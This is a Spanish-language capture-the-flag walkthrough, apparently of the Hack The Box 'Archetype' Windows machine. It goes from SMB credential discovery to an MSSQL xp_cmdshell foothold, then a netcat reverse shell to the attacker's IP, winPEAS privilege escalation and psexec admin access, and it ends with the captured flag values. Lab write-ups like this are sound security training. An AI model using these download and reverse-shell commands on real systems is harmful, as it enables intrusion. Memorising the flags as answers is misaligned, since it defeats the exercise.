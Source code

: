 # Archetype (Windows)

- Con nmpa se encontro lo siguiente; Por lo que podemos ver que hay una vulnerabilidad con el servicio ms-sql-s y ademas podemos aprovechar el protocolo smb como se ve mas abajo

![Untitled](../../images/Untitled.png)

- Por lo que podemos empezar por ver que podemos encontrar con smbclient; para epemzar procedemos a ver las listas, y ver cuales no necesitan administrador (Son las que no tienen ‘$’ en su nombre).

![Untitled](../../images/Untitled%201.png)

- Despues de comprobar a cual podemos entrar, entramos y vemos si existe informacion relevante. En este caso se encontro un usuario y su contraseña que podemos utilizar para hacer un ataque para la vulnerabilidad encontrada.

![Untitled](../../images/Untitled%202.png)

![Untitled](../../images/Untitled%203.png)

- Procedemos a localizar el binario ‘mssqlclient’ para poder crear una reverse sehell desde el servicio ms-sql-s de la maquina objetivo, para la cual utilizaremos los datos encontrados anteriormente.
    - La estructura del comando es el siguiente: /usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.3.27 -windows-auth
        - Ruta del binario
        - Usuario
        - IP de la maquina objetivo
        - Si la maquina es windows, se agrega
    
    ![Untitled](../../images/Untitled%204.png)
    
    - Lo que se procede a hacer es habilitar el cmd shell para poder comandar instrucciones. Despues de estar habilitada, se mandara una instruccion para que descargue el binario de netcat a la carpeta de descargas para despues ejecutarla y poder acceder a la consola de la maquina. El comando para que se descargue el binario es el siguiente:
        - xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget [http://10.10.14.43/nc.exe](http://10.10.14.43/nc.exe) -outfile nc.exe"
            - Donde:
            - Es el nombre que se le dara al archivo en la maquina
            - Es el Archivo que se descargara de la maquina atacante a traves de un servicio http
            - Es la ruta donde se almacenara el archivo
            - Es el comando dentro del binario para pode ejecutar instrucciones
    
    ![Untitled](../../images/Untitled%205.png)
    
    - Pero para poder mandar el archivo de netcat activaremos un servicio http para que pueda descargarlo con la ip del tun que se genera.
        
        ![Untitled](../../images/Untitled%206.png)
        
    - Ya descargado el archivo netcat, se procede a crear un listener en cualquier puerto e ejecutar el binario dentro de ese puerto para poder crear la reverse shell
    
    ![Untitled](../../images/Untitled%207.png)
    
    - Ya con el listener, procedemos a ejecutar el siguiente comando:
        - xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.43 443”
            - Donde:
            - Puerto
            - IP que se uso para levantar el servicio http
            - ejecutable del binario introducido para crear la reverse shell
        - Esto nos dara el siguiente resultado en el listener creado; lo que significa que existe una reverse shell y podemos proceder a buscar la flag
        
        ![Untitled](../../images/Untitled%208.png)
        
        - Para poderingresar al admin necesitamos un elevador de permisos, winPEAS nos ayudara en eso, por lo que de la misma manera que introdujimos el binario nc.exe, lo haremos igual con winPEAS. Y ya teniendolo, dentro del listener lo ejecutaremos para obtener las credenciales.
        
        ![Untitled](../../images/Untitled%209.png)
        
        - Obtendremos el siguiente archivo, por lo cual lo procedemos a leer y asi obtenemos las credenciales del admin
        
        ![Untitled](../../images/Untitled%2010.png)
        
        - Localizamos psexec, y ya con su respectiva ruta, lo ejecutamos con los datos que obtuvimos anteriormente
        
        ![Untitled](../../images/Untitled%2011.png)
        
        - Ya estando dentro, procedemos a buscar la flag del admin
        
        ![Untitled](../../images/Untitled%2012.png)
        
    
    # Flags
    
    sql_svc: 3e7b102e78218e935bf3f4951fec21a3
    
    administrator: b91ccec3305e98240082d4474b848528